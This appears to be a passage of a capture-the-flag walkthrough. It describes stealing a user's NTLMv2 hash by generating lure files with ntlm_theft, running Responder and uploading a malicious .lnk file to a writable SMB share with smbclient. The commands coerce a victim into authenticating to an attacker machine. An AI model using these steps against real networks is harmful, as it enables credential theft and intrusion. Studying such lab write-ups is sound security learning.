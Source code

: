 While you are on SMB realize that the files here are being renamed or replaced. This means that a user accesses this share regularly. 
Since the file names are changing we can come to an assumption that someone might be accessing the contents in the `**onboarding**` directory. Let's try to make use of this to steal a `**NTLM**` hash of the user that might be making the changes within the share.

We also note that we have write access to the share.

## NTLM Theft

A tool for generating multiple types of NTLMv2 hash theft files.

ntlm_theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.  More [info](https://github.com/Greenwolf/ntlm_theft).

You can see an example [here](https://www.hackingarticles.in/multiple-files-to-capture-ntlm-hashes-ntlm-theft/).

- Install ntlm_theft.
- Run the following code:
	`python3 ntlm_theft.py -g all -s \<MACHINE IP\> -f 0xb0b`
	The -f option will place all of them in the folder you choose.

	![[Screenshot from 2024-08-09 19-27-58.png]]
-  List the files created.
	 `cd 0xb0b`
	 `ls`
	![[Screenshot from 2024-08-09 19-45-02.png]]
## Responder

Responder is a powerful hacking tool used in penetration testing and security assessments. It's designed to listen for specific network traffic, particularly LLMNR (Link-Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) requests. When a device on the network tries to resolve a hostname, such as through a mistyped URL or accessing a non-existent resource, it may send out these requests.

Responder intercepts these requests and responds with fake or spoofed responses, tricking the requesting device into sending authentication credentials. This is particularly effective in environments where NTLMv1/NTLMv2 authentication is prevalent.

- Set up a responder on the eth0 interface on your attacking machine.
	`sudo responder -I tun0`
	
	![[Screenshot from 2024-08-09 19-40-55.png]]

- Upload the `*.lnk` file in `/Data/onboarding`.
	`smbclient \\\\MACHINE IP\\data -U ""`
		`smb: \> cd onboarding\`
		`smb: \onboarding\> put 0xb0b.lnk`
		`smb: \onboarding\> ls`

		![[Screenshot from 2024-08-09 19-52-45.png]]
After a short time, we get the hash of the user `AUTOMATE` in Responder.